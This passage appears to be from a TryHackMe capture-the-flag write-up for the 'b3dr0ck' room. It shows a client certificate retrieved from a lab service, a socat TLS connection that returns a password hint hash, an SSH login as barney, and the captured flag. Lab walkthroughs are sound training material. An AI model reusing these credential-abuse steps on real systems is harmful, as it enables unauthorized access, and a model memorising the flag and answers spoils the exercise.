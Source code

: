 
What are you looking for? password
Sorry, unrecognized request: 'password'

You use this service to recover your client certificate and private key
What are you looking for? certificate
Sounds like you forgot your certificate. Let's find it for you...

-----BEGIN CERTIFICATE-----
MIICoTCCAYkCAgTSMA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yNDA2MTAwNzEwMjdaFw0yNTA2MTAwNzEwMjdaMBgxFjAUBgNVBAMMDUJh
cm5leSBSdWJibGUwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDKyolj
O3jnsv27xGQcWF7w/S7JOEtZAGX7WBrwj4YrF+ggoTJfy9mckdIwUFaRZCjFTOYY
RdrVXj9AcrQ//cqsdye0BB2UY63TCtXqBFXVifkyk1DLNUZswDtCjXFsPyA9Sc13
jJOT9WJyXnHOoToxLvhyopL684qMVA5y4gqicmyrmTsl57atgweQ4IoSmU9NUJc8
xEX2n9SR4iaOCI6Q4PSb5binfeECnfGwOlMh0CtWTtpfOQ+2yW+0CQd0yj1TJl1B
JRnoEChdbHRixPFjPuxwhhxr+Cbm97reysv/WeUI4ue9IKFcdThj4Gl7dUZLv+FX
+Qg2SDhHozXNDFyvAgMBAAEwDQYJKoZIhvcNAQELBQADggEBAKY65qYNuP9Yi/4q
73p0MbfafCL+ifLDRNKobCi4hfN/a2XygAcL7hwFrdyqxz0YZqig4bwqNLpigARZ
XA4nCCt27+cwPIFf2y7ayPeV3975YpduriV1PPqjgPTzGwilQDT9lNWxn4BPUEYF
SPpu688OAdF0ek/Y8+3UJx2OHMquY1XqF5DpBXp52nCd3TZt1hMyD+z2JbZlM54w
1PCNuyC2PHOSzJIr2uKUgaKEagpZEVCQPGAO/YONcyyA6TolUwBNAcF0hg4A7jM0
ARRB1p6jK+zfs9V3pautyQ7miSTbkUosOHHXgpL5fKfIsSQd699mb9VXnQlsF6MY
q2tv3N0=
-----END CERTIFICATE-----


### Get Barney Password

┌──(duke㉿kali)-[~/Documents/THM_B3dr0ck]
└─$ socat stdio ssl:10.10.117.163:54321,cert=www.crt,key=priv.id,verify=0


 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> password
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')


┌──(duke㉿kali)-[~/Documents/THM_B3dr0ck]
└─$ ssh barney@10.10.117.163
barney@10.10.117.163's password: 
barney@b3dr0ck:~$ ls
barney.txt
barney@b3dr0ck:~$ cat barney.txt 
THM{f05780f08f0eb1de65023069d0e4c90c}
barney@b3dr0ck:~$ 
barney@b3dr0ck:~$ 
barney@b3dr0ck:~$ ls
barney.txt
barney@b3dr0ck:~$ cd ..
barney@b3dr0ck:/home$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 Apr 10  2022 .
drwxr-xr-x 19 root   root   4096 Apr  9  2022 ..
drwxr-xr-x  3 barney barney 4096 Apr 30  2022 barney
drwxr-xr-x  4 fred   fred   4096 Apr 30  2022 fred
